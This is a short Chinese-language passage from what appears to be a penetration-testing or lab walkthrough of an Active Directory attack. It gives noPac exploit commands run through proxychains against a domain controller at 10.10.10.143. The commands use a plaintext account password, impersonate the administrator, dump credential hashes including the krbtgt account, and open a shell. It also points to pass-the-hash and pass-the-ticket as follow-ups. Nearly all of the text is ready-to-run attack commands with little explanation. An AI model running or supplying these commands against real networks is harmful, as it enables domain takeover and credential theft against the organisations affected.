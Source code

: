 <img src=".\图片\Snipaste_2023-05-21_14-38-59.png" alt="Snipaste_2023-05-21_14-38-59" style="zoom:80%;" />

获取域控票据

```bash
proxychains4 python3 noPac.py nasa.gov/test:'QWEasd!@#999' -dc-ip 10.10.10.143 -dc-host AD02 --impersonate administrator -dump
```

<img src=".\图片\Snipaste_2023-05-21_14-48-35.png" alt="Snipaste_2023-05-21_14-48-35" style="zoom:80%;" />

```
proxychains4 python3 noPac.py  nasa.gov/test:'QWEasd!@#999' -dc-ip 10.10.10.143 -dc-host AD02 --impersonate administrator -dump -just-dc-user nasa/krbtgt
```



后续也可以用哈希传递或者票据传递

## 第五台19server-ad02

如上同理操作

```
proxychains4 python3 noPac.py -use-ldap nasa/test:QWEasd\!@#999 -dc-ip 10.10.10.143 -shell
```
